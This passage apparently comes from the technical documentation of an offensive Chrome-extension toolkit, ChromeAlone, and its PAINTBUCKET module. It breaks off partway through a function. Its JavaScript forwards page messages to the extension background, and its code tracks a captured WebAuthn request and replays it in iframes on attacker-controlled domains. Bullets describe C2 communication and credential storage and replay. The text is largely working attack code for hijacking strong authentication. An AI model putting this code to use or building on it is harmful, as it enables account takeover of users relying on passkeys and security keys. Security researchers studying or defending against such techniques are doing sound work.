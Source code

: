 **Component 2: Communication Bridge (`maintoisolated.js`)**
Runs in the isolated content script world:
```javascript
// Listen for messages from main world
window.addEventListener('message', (event) => {
    if (event.data.type === 'MAIN_TO_EXTENSION') {
        // Forward to extension background script
        chrome.runtime.sendMessage(event.data.payload, (response) => {
            // Send response back to main world
            window.postMessage({
                type: 'EXTENSION_TO_MAIN',
                messageId: event.data.payload.messageId,
                data: response
            }, '*');
        });
    }
});
```

**Component 3: Extension Background Processing**
Receives data with full extension privileges:
- Processes intercepted WebAuthn requests
- Communicates with C2 server
- Manages credential storage and replay
- Coordinates with other ChromeAlone components

### Cross-Domain WebAuthn Injection Implementation

#### Single Active Request Management
PAINTBUCKET maintains only one active WebAuthn request for injection at any time to simplify implementation and handle request expiration:
```javascript
// Extension background script tracks single active request
let activeWebAuthnRequest = null;
const targetDomains = [
    "attacker-site1.com",
    "attacker-site2.com", 
    "compromised-partner.com"
];

// When legitimate auth detected, replace any existing active request
function setActiveWebAuthnRequest(legitimateRequest) {
    // Replace previous request (lazy expiration)
    activeWebAuthnRequest = {
        timestamp: Date.now(),
        originalRequest: legitimateRequest,
        targetDomains: targetDomains,
        used: false
    };
    
    console.log('🔄 Active WebAuthn request updated, previous request replaced');
}

// Iframe creation uses the current active request
function createWebAuthnIframeFromActiveRequest() {
    if (!activeWebAuthnRequest || activeWebAuthnRequest.used) {
        console.log('❌ No active WebAuthn request available');
        return null;
    }
    
    // Mark as used and create iframe for first available domain
    activeWebAuthnRequest.used = true;
    const targetDomain = activeWebAuthnRequest.targetDomains[0];
```